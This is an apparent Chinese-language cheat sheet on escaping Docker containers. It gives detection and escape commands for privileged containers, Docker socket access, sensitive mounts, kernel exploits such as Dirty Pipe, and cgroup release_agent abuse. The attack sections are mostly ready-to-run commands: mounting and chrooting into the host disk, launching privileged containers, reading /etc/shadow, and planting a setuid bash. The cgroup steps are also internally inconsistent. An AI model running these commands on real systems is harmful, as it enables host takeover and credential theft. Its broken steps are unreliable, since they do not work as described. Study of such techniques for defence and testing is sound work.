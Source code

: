 # docke逃逸
1. 特权模式容器逃逸 (Privileged Mode Escape)​​
这是最经典且高效的逃逸方式。当容器以 --privileged 标志运行时，容器内的 root 用户几乎拥有宿主机 root 的权限。
检测方法：

```
# 方法一：检查设备文件
ls /dev/sda* 2>/dev/null
# 如果能看到宿主机磁盘设备，极可能是特权容器

# 方法二：检查能力集
cat /proc/self/status | grep CapEff
# 特权容器的 CapEff 值通常是 0000003fffffffff 或类似的全能力集

# 方法三：使用 capsh 工具
capsh --print | grep -i bounding
# 输出包含大量能力（如 CAP_SYS_ADMIN）则可能是特权容器
```


逃逸方法：​

```
# 直接挂载宿主机根文件系统
mkdir /tmp/host_root
mount /dev/sda1 /tmp/host_root  # 或 /dev/vda1, /dev/xvda1 等
chroot /tmp/host_root bash

# 如果找不到磁盘设备，可以尝试枚举
fdisk -l 2>/dev/null || lsblk 2>/dev/null

```

2. 滥用 Docker Socket 逃逸
如果容器内可以访问 Docker Socket (/var/run/docker.sock)，可以直接在容器内控制宿主机 Docker 守护进程。
检测方法:

```
# 检查 Docker Socket
ls -la /var/run/docker.sock 2>/dev/null

# 检查 Docker 命令行工具
which docker 2>/dev/null
```
逃逸方法:
```
# 方法一：在容器内启动新容器，挂载宿主机根目录
docker run -it -v /:/host ubuntu:latest chroot /host bash

# 方法二：直接启动特权容器
docker run -it --privileged --pid=host ubuntu:latest nsenter -t 1 -m -u -n -i bash
```
---

3. 挂载点逃逸
如果启动时挂载了敏感目录，如宿主机根目录
检测方法:

```
# 检查当前挂载点
mount | grep -E '(/|/host|/rootfs|/mnt)'

# 检查 Docker 启动命令
cat /proc/1/mountinfo | grep -E '(/|/host)'
```
逃逸方法:

```
# 如果发现宿主机目录被挂载到 /host
chroot /host bash

# 或者直接访问文件
cat /host/etc/shadow
```

---

4. 内核漏洞利用
Docker 与宿主机共享内核，因此内核漏洞会影响容器安全

```
相关漏洞：​​

​CVE-2022-0847 (Dirty Pipe)​​：Linux 内核漏洞，允许覆盖任意只读文件。
​CVE-2022-2586​：nft_object UAF 漏洞。
​CVE-2021-22555​：Netfilter 堆溢出漏洞。
​CVE-2016-5195 (Dirty COW)​​：经典的内核竞争条件漏洞。
```

检测:

```
# 1. 检查内核版本
uname -a

# 2. 搜索可用漏洞
searchsploit dirty pipe  # 或根据内核版本搜索

# 3. 下载和编译漏洞利用程序
# 例如 Dirty Pipe (CVE-2022-0847)
gcc exp.c -o exp && ./exp /root/.ssh/authorized_keys
```

---

5. 滥用 CGroup 通知功能
利用条件：​​ 容器须以特定能力运行，且 cgroup 可写。

逃逸方法：

```
# 1. 在受控 cgroup 中启用 notify_on_release
echo 1 > /sys/fs/cgroup/memory/release_agent

# 2. 设置 release_agent 路径为宿主机上的脚本
echo '#!/bin/sh' > /tmp/payload.sh
echo 'chmod 4755 /bin/bash' >> /tmp/payload.sh  # 或任何命令
chmod +x /tmp/payload.sh

# 3. 设置 release_agent 指向该脚本（注意宿主机路径）
echo '/tmp/payload.sh' > /sys/fs/cgroup/memory/release_agent

# 4. 触发释放过程
echo $$ > /sys/fs/cgroup/memory/cgroup.procs
```


---

​6. 其他逃逸技术​
​滥用 SYS_PTRACE 能力​：调试其他进程获取信息。
​滥用 IPC 命名空间​：通过共享内存与宿进程交互。
​滥用网络配置​：如果使用主机网络模式 (--net=host)，直接访问宿主机服务